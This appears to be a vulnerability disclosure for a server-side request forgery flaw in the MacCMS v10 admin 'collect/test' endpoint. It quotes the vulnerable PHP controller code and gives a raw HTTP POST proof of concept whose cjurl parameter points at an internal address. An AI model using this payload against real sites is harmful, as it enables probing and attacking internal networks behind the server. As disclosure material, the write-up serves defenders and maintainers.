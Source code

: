 # Vendor

magicblack

# Product

MacCMSv10

# version

v2025.1000.4050

# Download 

https://github.com/magicblack/maccms10

https://www.maccms.cn/down.html

# Vulnerability

SSRF

# Description

The root cause is that the back-end code receives a user-controllable URL parameter and, without performing strict security validation, directly uses this URL to initiate a network request on behalf of the server itself.

# Analysis

1. The Attacker Provides a Malicious URL
The attacker sends a POST request to the server, with the request body containing a key parameter,
```cjurl:
cjurl=http://192.168.1.81:9898/666.php?id=123&cjflag=&ac=list
```

This URL is an internal network address (192.168.1.81) pointing to a port (9898) that is typically accessible only by the server itself and is not exposed externally. This is a classic characteristic of an SSRF attack.

2. The Controller Receives and Forwards the URL
This request is routed to .../admin/collect/test.html, which executes the test() method within the app/admin/controller/Collect.php file you provided:

```
public function test()
{
    $param = input(); // 1. The $param array here contains the malicious cjurl submitted by the user.
    $res = model('Collect')->vod($param); // 2. The cjurl is passed directly to the model layer without any security checks.
    return json($res);
}
```
As you can see, the test() method acts as the entry point, completely trusts the user's input, and passes the entire $param array, including the malicious cjurl, to the model('Collect')->vod() method.


Vulnerability Verification:

<img width="1538" height="733" alt="image" src="https://github.com/user-attachments/assets/2dabaa08-fd4a-4c9c-85e4-4c518e933f0b" />

Pass the packet test directly:
<img width="1266" height="399" alt="image" src="https://github.com/user-attachments/assets/c739a191-b371-47c5-ad3a-c71ba4b1891d" />


# POC
```
POST /admin1.php/admin/collect/test.html HTTP/1.1
Host: 192.168.1.81:8082
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=ao6klcug60d8l6ju5jb1irt6e6
Connection: keep-alive
Content-Length: 61

cjurl=http://192.168.1.81:9898/666.php?id=123&cjflag=&ac=list

```

